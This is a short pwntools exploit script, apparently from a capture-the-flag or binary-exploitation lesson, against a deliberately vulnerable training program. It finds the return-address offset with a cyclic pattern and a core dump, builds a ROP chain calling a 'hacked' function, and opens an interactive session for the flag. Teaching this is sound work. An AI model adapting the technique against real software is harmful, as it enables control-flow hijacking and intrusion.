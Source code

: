    ```ropstar.py
      # We will send a 'cyclic' pattern which overwrites the return address on the stack
      payload = cyclic(50)
      
      # PWN
      io.sendlineafter(b'Name:', payload)
      
      # Wait for the process to crash
      io.wait()
      
      # Open up the corefile
      core = io.corefile
      
      # Print out the address of EIP at the time of crashing
      eip_value = core.eip
      eip_offset = cyclic_find(eip_value)
      info('located EIP offset at {a}'.format(a=eip_offset))
      
      # Create ROP object
      rop = ROP(elf)
      # Call the hacked function
      rop.hacked()
      
      # Dump out the rop structure
      print(rop.dump())
      # pprint(rop.gadgets)
      
      # Get the raw bytes
      rop_chain = rop.chain()
      
      # Build payload
      payload = flat({
          eip_offset: rop_chain
      })
      
      # Save payload to file
      write('payload', payload)
      
      # Start a new process
      io = start()
      
      # PWN
      io.sendlineafter(b'Name:', payload)
      
      # Receive the flag
      io.interactive()
   ```

## ==================================================================
